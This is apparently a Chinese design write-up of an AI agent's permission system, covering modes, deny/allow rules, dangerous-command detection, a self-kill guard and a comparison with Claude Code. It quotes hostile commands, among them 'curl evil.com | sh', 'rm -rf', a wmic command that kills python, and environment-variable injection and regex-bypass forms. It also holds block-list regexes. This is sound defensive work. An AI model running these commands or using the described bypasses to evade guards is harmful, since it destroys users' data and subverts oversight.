

# 权限与安全：什么能跑，什么必须先问

> 权限层要回答的不是"怎么拦命令"，而是三个更难的问题：**谁来决定**（模式）、**凭什么决定**（规则与危险检测）、**拦不住时怎么办**（工具级硬闸 + fail-closed）。本篇拆解 `services/permissions.py` 的实现与每一层背后的设计推理，并附完整走查示例。
> 对应代码：`services/permissions.py`、`agents/session.py`（执行挂钩）、`ui/render.py`（确认交互）、`tools/BashTool.py`（工具级护栏）。写于 2026-09-04。

## 目录

- [权限问题的本质](#权限问题的本质)
- [三个原语：模式、规则、危险检测](#三个原语)
- [决策管线逐层走读](#决策管线逐层走读)
- [五种模式的定位与取舍](#五种模式的定位与取舍)
- [bypass-immune：信任不是无限](#bypass-immune)
- [规则的语法与匹配算法](#规则的语法与匹配)
- [确认交互与会话白名单](#确认交互与会话白名单)
- [工具级最后防线：自杀护栏](#工具级最后防线)
- [三个走查示例](#三个走查示例)
- [业界调研：共识、问题与方案](#业界调研)
- [当前实现的成熟度评估](#成熟度评估)
- [不足与进一步优化方向](#不足与优化方向)
- [附录 · 变更历史](#附录)

## 业界调研

### 权限控制在 Agent 领域的定位

传统 CLI 的权限模型是"用户敲什么就执行什么，责任在用户"。AI Agent 彻底改变范式：**模型自主决定执行什么操作**——用户说"帮我重构项目"，模型可能自主决定删文件、执行 shell、改系统配置。权限控制就是在工具调用执行前，由系统化机制判定"是否允许、是否需确认、是否直接拒绝"，本质是 Agent 与用户环境之间的**安全护栏**。

核心矛盾一句话：**效率与安全的矛盾**——每次都弹确认严重降低生产力，完全自动化又面临不可控风险（含 prompt injection 诱导模型执行危险操作）。

### 业界主流共识（以 Claude Code 为标杆，见 `cc源码调研/03-cc-权限与安全.md`）

1. **纵深防御**：CC 构建 7 层独立防线（信任确认、权限模式、规则匹配、Bash 多层安全、工具级安全、沙箱、用户确认），**每一层都假设其他层可能失效**。
2. **行为优先级铁律**：`deny > ask > allow`——拒绝的力量大于允许，deny 在 allow 之前检查且不可覆盖。
3. **bypass-immune 安全阀**：即使用户选最宽松的 bypass 模式，对 `.git/.claude/.bashrc` 等敏感路径、用户显式 ask 规则、safety check 的检查仍生效。
4. **渐进式信任**：检查成本与风险对齐——低风险（读文件）规则快速放行，高风险（shell）AI Classifier + 人工确认。
5. **Fail-Closed**：未知操作一律安全处理（default 模式需确认、dontAsk 模式直接拒绝、AST 不理解的命令一律不信任）。

### 主要问题与解决方案

| 问题 | 表现 | 业界方案 |
|------|------|----------|
| 每次弹确认烦死用户 | 低风险操作也问 | 权限模式 + 只读工具快速放行 + 会话白名单 |
| bypass 后完全裸奔 | 测试开 bypass 却绕过危险检测 | bypass-immune（危险检测在模式决策之前） |
| deny 被 allow 覆盖 | 优先级混乱 | deny > ask > allow 铁律 + deny 在第 1 层 |
| 无人值守弹窗卡死 | CI 环境无法交互 | dontAsk 模式：ask → deny（fail-closed） |
| 路径逃逸 | `../` 伪装绕过白名单 | resolve() + is_relative_to 归一化判定 |
| 危险命令清单遗漏 | 只覆盖 taskkill 漏 wmic | 补全进程终止命令 + 工具级护栏兜底 |

**CC 比本项目多出的关键能力**：AI Classifier（独立模型判断操作安全性）、竞速决策（Hook/分类器/用户对话框同时启动，人类意图优先）、连续拒绝熔断（maxConsecutive 3 次降级）、Bash AST 解析（tree-sitter FAIL-CLOSED）、危险环境变量剥离。

### 权限/安全的两类实现思路（超越 CC 的全局视角）

业界对"Agent 安全护栏"除 CC 的多层权限外，还有两个不同侧重的思路：

| 思路 | 代表 | 核心机制 | 与 CC 的区别 |
|------|------|----------|--------------|
| **Guardrails（输入输出校验）** | OpenAI Agents SDK | 对 agent 输入/输出并行做校验，fail-fast | CC 管"工具执行前"的权限，OpenAI 管"模型输入输出"的合法性——两者是正交的安全面 |
| **human-in-the-loop（图内中断）** | LangGraph | `interrupt_before/after` 在节点前暂停，人工审批后 resume | CC 的确认是"工具级弹窗"，LangGraph 是"图级暂停 + checkpointer 恢复" |
| **沙箱隔离** | OpenHands / E2B / CC sandbox | 把 shell 放 Docker/沙箱环境执行 | 本项目 run_shell 直接宿主执行，无沙箱层 |

**关键洞察**：OpenAI 的 Guardrails 揭示了权限之外的另一道防线——**校验模型的输入输出**（如输出是否符合 schema、是否含危险内容），与 CC 的"工具执行前权限"是互补的两面。LangGraph 的 human-in-the-loop 则把"确认"从"工具级"提升到"流程级"（在图的任意节点暂停），配合 checkpointer 可在审批后精确恢复。这两点对本项目有借鉴价值（见优化方向）。

**本项目的定位**：采用 CC 式多层权限（模式+规则+危险检测+工具护栏），未做 Guardrails（输入输出校验）与沙箱隔离。沙箱是"纵深防御"里本项目最缺的一层——run_shell 直接宿主执行，自杀护栏只能防"杀 python"这一种，无法防"误改系统文件"等更广的破坏。

## 权限问题的本质

LLM 会用 `run_shell`/`write_file` 操纵真实系统。它聪明但不可靠：可能误删、可能执行攻击性命令、可能在调试一个"卡住的 GUI"时顺手 `taskkill` 掉自己的宿主进程。权限层的职责可以被压成一句话：**让"成本高但可恢复"的操作自动化（bypass），让"破坏性或不可恢复"的操作永远有一道人类闸门，无论用户选了多宽松的模式。**

两个隐含推论：

1. 权限决策是**每条工具调用时**发生的（不是启动时一次性授权）；
2. 决定必须**可解释**（返回 `{action, reason}`，让人/模型知道为什么被拒）。

核心铁律（模块 docstring）：

> deny > ask > allow —— 行为优先级铁律
> bypass 模式跳过通用 ask，但**不跳过 deny / safety check**（bypass-immune）

## 三个原语



**模式（PermissionMode）**：5 个档位表达"用户今天想被问几次"。它是全局意图，不是逐条规则。

**规则（PermissionRules）**：精确到"哪个工具、什么内容"的持久/会话策略。三类：`deny_rules`（管理员硬性禁止）、`allow_rules`（可自动放行）、`session_allows`（本次会话内用户 confirm 过后记住的放行）。

**危险检测**：与模式正交的硬检查，分三块——危险命令正则、危险路径集合、越界路径判定。

## 决策管线逐层走读

`check_permission(tool_name, tool_input, mode, rules) -> {action, reason}` 的代码顺序本身就是设计文档，逐层说清"为什么放这一层"：

```python
content = _get_content_key(tool_name, tool_input)   # run_shell→command; 文件工具→file_path

# Layer 1: deny 规则（最高优先级，不可覆盖）
if rules.match_rule(rules.deny_rules, tool_name, content):
    return deny("Blocked by deny rule: ...")

# Layer 2: 只读工具直接放行（快路径）
if tool_name in READ_TOOLS:                         # read_file/list_files/grep_search/load_skill
    return allow("Read-only tool")

# plan 模式硬性拒绝（先于危险检测：不该发生的事不弹窗）
if mode == "plan" and tool_name in EDIT_TOOLS or tool_name == "run_shell":
    return deny("Edit/Shell blocked in plan mode")

# Layer 3: 危险检测 + safety（bypass-immune）
if tool_name == "run_shell" and is_dangerous_command(command):
    if rules.is_session_allowed(...): return allow("Session whitelist")
    if mode == "dontAsk":           return deny("auto-denied (dontAsk)")
    return confirm("Dangerous command: ...")
if file_path and tool_name in EDIT_TOOLS:
    if memory.is_memory_path(file_path):  return allow("Memory dir whitelisted")
    if is_dangerous_path(file_path):      → dontAsk?deny:confirm
    if is_outside_workdir(file_path):     → dontAsk?deny:confirm

# Layer 4: 模式决策（殿后）
if mode == "bypassPermissions":            return allow
if mode == "acceptEdits" and tool_name in EDIT_TOOLS: return allow
allow 规则 / 会话白名单 / 安全工具(agent/TodoWrite/task*) → allow
if mode == "dontAsk":                      return deny
return confirm("Requires confirmation")   # default
```

各层顺序的设计推理：

- **deny 在只读放行之前**：管理员可以连只读都禁（如禁 `run_shell(git push*)` 不只在写场景）。所以 deny 是第 1 层；
- **只读放行在 plan 拒绝之前**：plan 模式也要能读文件做规划，只读是通用许可；
- **plan 对写/shell 的拒绝在危险检测之前**：plan 模式里"编辑"和"shell"根本不该出现，直接 deny 而不是弹 confirm——弹窗是给"合法但需确认"的场景的，不该出现在"不该发生"的场景里（dontAsk 同理，见下）；
- **危险检测 bypass-immune**：`rm -rf`、`sudo`、`taskkill`、`.git/.env/.ssh`、越界路径——即使 bypassPermissions 也 confirm。为什么"危险"的判定不该被"信任模式"豁免？因为 bypass 表达的是"用户嫌烦"，不是"用户愿意承担数据毁灭"。dontAsk 下 confirm 无法弹窗 → 降级 deny（fail-closed，无人值守宁可拒）；
- **记忆目录白名单**在危险路径**之前**：记忆目录是 Agent 要自由读写的"自家后院"，先放行避免后续误判为危险；
- **模式决策殿后**：把"通用信任档位"放在最后，是因为前面的 deny/危险检测都要覆盖它——模式只决定"没人明确反对时的默认动作"。

## 五种模式的定位与取舍

| 模式 | 编辑 | shell(普通) | 危险命令/路径 | 语义 | 适合 |
|------|------|-------------|---------------|------|------|
| `default` | confirm | confirm | confirm | 凡事问 | 日常谨慎 |
| `plan` | deny | deny | deny | 只读规划 | 只规划不执行 |
| `acceptEdits` | allow | confirm | confirm | 信编辑、疑命令 | 写码为主 |
| `bypassPermissions` | allow | allow | **confirm** | 全自动但保底 | 本地免点击测试 |
| `dontAsk` | deny | deny | deny | 不弹窗即拒绝 | 无人值守 fail-closed |

两个设计点值得注意：`dontAsk` 与 `bypass` 看似对立，其实是同一个轴的极端——bypass 说"我能自己负责的都自动做，危险的还问你"，dontAsk 说"我没人可问，所以凡是会问的一律不做"。前者面向人，后者面向 CI。

## bypass-immune

用户觉得 bypassPermissions = 什么都放行？实际三层仍不可绕过：

1. **deny 规则**永远生效（管理员策略）；
2. **危险命令 / 危险路径 / 越界路径** → 仍 confirm（dontAsk 下直接 deny）；
3. **工具级护栏**（自杀检测）在权限系统之外再加一层，任何模式无法豁免。

这一设计对齐 Claude Code 的 safety check 语义，避免了"测试图方便开 bypass → 事故却绕不过去"的悲剧（也规避了"为了测试给满权限然后误删"的真实风险）。

## 规则的语法与匹配

规则字符串三种形态（`PermissionRules.match_rule`）：

| 形态 | 例子 | 匹配 |
|------|------|------|
| `tool` | `run_shell` | 整工具级（任何命令） |
| `tool(exact)` | `run_shell(npm test)` | 内容精确相等 |
| `tool(prefix*)` | `run_shell(npm test*)` | 内容前缀匹配 |

`_get_content_key` 决定"内容"是什么：run_shell 取 `command`，文件工具取 `file_path`，其余为空串（空串时只能整工具匹配）。来源：项目 `.xiaoagent/settings.json` 的 `permissions.deny/allow`，加载失败静默（不给配置一个文件炸掉整个会话的机会）。`deny > allow` 已由管线顺序保证（allow 匹配发生在 4c，deny 在第 1 层）。

## 确认交互与会话白名单

confirm 的落点在 `agents/session.py`：`perm["action"] == "confirm"` 时 `print_permission_detail` 打印工具名 + 关键参数（shell 命令/文件路径），`confirm_action()` 等用户 `y/n`。用户在 REPL 里看到的样子：

```text
  [!] Shell command: rmdir /s /q "%TEMP%\x" & del file.txt
  Allow? (y/n): y
```

用户按 `y` 后，`check_permission` 的成功路径会把这条放进 `session_allows`（key 形如 `run_shell:<command>`），本会话内同命令不再问——"问一次就够，别烦第二次"。这个白名单同时能被危险检测先查（管线 3a 第一分支），所以它对危险命令也生效（但只限本会话、只限完全相同的命令文本，不是模式豁免）。

## 工具级最后防线

真实事故（2026-09-03）：子 Agent 调试一个卡住的 GUI 后执行清理命令（`taskkill`/`wmic process … delete`/`Stop-Process`），把 xiaoagent 宿主 python 进程一起杀掉——工作流无痕中断、转录全丢；且当时权限危险清单只覆盖了 `taskkill`。

```python
# tools/BashTool.py —— 工具内自检，先于权限管线
_KILL_VERBS = re.compile(r"\b(taskkill|stop-process|wmic|killall|pkill|tskill)\b", re.I)
_KILL_TARGET_PY = re.compile(r"\b(python\w*|py\.exe|python3(\.\d+)?)\b", re.I)

def _would_kill_self(command):
    if not _KILL_VERBS.search(command): return False
    return bool(_KILL_TARGET_PY.search(command))

def handle(command, ...):
    if _would_kill_self(command):
        return ToolResult.failure(
            "Refused: this command terminates python processes, which would kill the agent itself. "
            "If a process is stuck, prefer run_in_background with a timeout instead.", "self_kill_guard")
```

为什么放工具而不是权限层？权限模式是用户可调的（bypass 很常见）；"杀自己宿主"则任何模式都不该发生。放进 `BashTool.handle` 入口意味着它根本到不了权限决策——返回的是可读错误（子 Agent 会调整策略，例如改成 run_in_background + 超时），而不是把进程干掉。这属于"把不可恢复的事故降级成可恢复的工具失败"。

## 三个走查示例

**示例 A：bypass 模式下敲 `rm -rf /tmp/build`（本地测试常见误操作）**

```
check_permission("run_shell", {command:"rm -rf /tmp/build"}, "bypassPermissions", rules)
  Layer1 deny? 否
  Layer2 read? 否 | plan? 否
  Layer3 危险命令? rm -r 命中 → session_allows? 无 → dontAsk? 否 → return confirm
→ 终端打印命令详情 + Allow?(y/n)
```
结论：即使 bypass，删除类命令仍问人。这就是"危险检测 bypass-immune"的落地。

**示例 B：plan 模式模型想直接改文件**

```
check_permission("edit_file", {file_path:"src/a.py"}, "plan", rules)
  Layer1 deny? 否 | Layer2 read? 否
  Layer2 plan? 是 且 EDIT_TOOLS → return deny("Edit blocked in plan mode")
```
结论：plan 模式连问都不问——它根本不拥有写的能力，模型会收到"Permission denied"并改走"规划+派子 Agent"路线。

**示例 C：子 Agent 想 `wmic process where "name='python.exe'" delete`（事故复现）**

```
BashTool.handle 入口：_KILL_VERBS 命中(wmic)、_KILL_TARGET_PY 命中(python.exe)
  → return ToolResult.failure(..., "self_kill_guard")   ← 权限管线根本没被调用
```
结论：这不是"问谁"，而是"绝对不能执行"。工具层把它变成一次可恢复的工具失败，子 Agent 看到 Refused 后改策略（例如不再试图杀 python，而是让 GUI 自己退出或加超时后台运行）。

## 成熟度评估

对照业界共识与 CC 能力，逐条评估：

| 能力 | 本项目 | 成熟度 |
|------|--------|--------|
| 权限模式分级 | ✅ 5 模式（default/plan/acceptEdits/bypass/dontAsk） | 高（对齐 CC 外部模式） |
| deny > ask > allow 铁律 | ✅ 管线顺序保证 | 高 |
| bypass-immune | ✅ 危险检测 + deny 在模式决策之前 | 高 |
| 只读工具快速放行 | ✅ READ_TOOLS 白名单 | 高 |
| 会话白名单 | ✅ session_allows | 高 |
| 路径逃逸防护 | ✅ safe_path resolve + is_relative_to | 高 |
| 危险命令/路径检测 | ✅ 正则 + 危险路径集合 | 高 |
| 工具级护栏（自杀） | ✅ BashTool `_would_kill_self` | 高（超越 CC 常规） |
| fail-closed（dontAsk） | ✅ dontAsk 下 confirm → deny | 高 |
| AI Classifier | ❌ 无（靠规则 + 人工确认） | 低 |
| 竞速决策（人类优先） | ❌ 无（确认是同步串行的） | 低 |
| 连续拒绝熔断 | ❌ 无 | 低 |
| Bash AST 解析 | ❌ 无（正则匹配命令） | 低 |
| 危险环境变量剥离 | ❌ 无 | 低 |

**总体判断**：核心"模式 + 规则 + 危险检测 + bypass-immune + fail-closed + 工具护栏"已完整对齐 CC 的设计思想，是成熟度最高的模块之一；差距集中在"智能化"（AI Classifier、竞速决策）与"Bash 深层次安全"（AST 解析、环境变量剥离）——这两块是 CC 生产级深水区，本项目作为校招级项目暂不需完全对齐。

## 不足与优化方向

1. **危险命令检测靠正则**：`is_dangerous_command` 用正则匹配 `rm/sudo/taskkill` 等，会被 `$(rm -rf)`、`eval "rm"`、变量展开等绕过。CC 用 tree-sitter AST 解析（FAIL-CLOSED，不理解的结构一律不信任）。若安全要求升级，应引入 AST 解析替代正则。

2. **无 AI Classifier**：当前"危险 vs 安全"靠硬编码正则，无法理解语义（如 `curl evil.com | sh` 这种组合）。CC 用独立模型判断操作安全性。这是"AI 监督 AI"的架构，成本高但语义理解强。测试期可不做，生产期值得考虑。

3. **无连续拒绝熔断**：CC 有 denial tracking（连续 3 次/总 20 次降级），防止自动决策死循环。本项目手动确认场景下模型反复请求同一危险命令时，用户会一直弹窗。可加"会话内同命令被拒 N 次后提示"。

4. **危险环境变量未剥离**：`LD_PRELOAD=x cmd`、`PATH=/evil cmd` 这类环境变量注入未被检测。CC 有安全变量白名单（NODE_ENV 等可剥离）+ 危险变量黑名单（PATH/LD_PRELOAD 不剥离但需确认）。本项目可补一个"命令含危险环境变量赋值 → confirm"的检查。

5. **规则来源单一**：权限规则只有项目 `.xiaoagent/settings.json` 一处，没有 CC 的 8 层来源（session > cliArg > policy > flag > local > project > user）。企业管控（policySettings 强制规则用户不可覆盖）缺失。多租户/企业场景需要。

6. **无沙箱隔离层**：run_shell 直接在宿主进程执行，自杀护栏只防"杀 python"一种。OpenHands/E2B/CC 都把 shell 放沙箱（Docker 等）执行，即使命令恶意也伤不到宿主。这是本项目安全纵深里最缺的一层，可考虑 shell 命令进 Docker/子进程沙箱执行。

7. **无 Guardrails（输入输出校验）**：OpenAI Agents SDK 的 Guardrails 校验模型输入输出合法性，与本项目的"工具执行前权限"正交。可补"工具输出内容安全校验"（如输出是否含敏感信息、是否诱导后续危险操作）。

## 附录

### 变更历史

| 遇到的问题 / bug | 问题分析 | 解决方法 | 时间 |
|------------------|----------|----------|------|
| deny/allow 优先级混乱 | 旧实现 ask 可能先于 deny 放行 | 确立 deny > ask > allow 管线（模块重构） | 09-01 |
| dontAsk 弹窗卡死无人值守 | confirm 在无人场景无法弹窗 | dontAsk 下 confirm 一律 deny（fail-closed） | 09-01 |
| bypass 跳过危险检测 | 旧实现模式豁免一切 | bypass-immune：危险检测在模式决策之前 | 09-01 |
| Windows 路径误判越界 | 8.3 短路径 vs 长路径 | safe_path 统一 resolve 再比较 | 09-01 |
| 危险命令清单漏 wmic/Stop-Process | 只覆盖 taskkill | 补 `wmic process`、`Stop-Process` 到 DANGEROUS_PATTERNS | 09-03 |
| **子 Agent 自杀死进程**（真实事故） | 清理命令杀 python、权限层拦不住 | BashTool `_would_kill_self` 工具级护栏（任何模式） | 09-03 |
| 同一危险命令反复确认 | 无会话记忆 | session_allows（会话内同命令记住） | 09-01 |
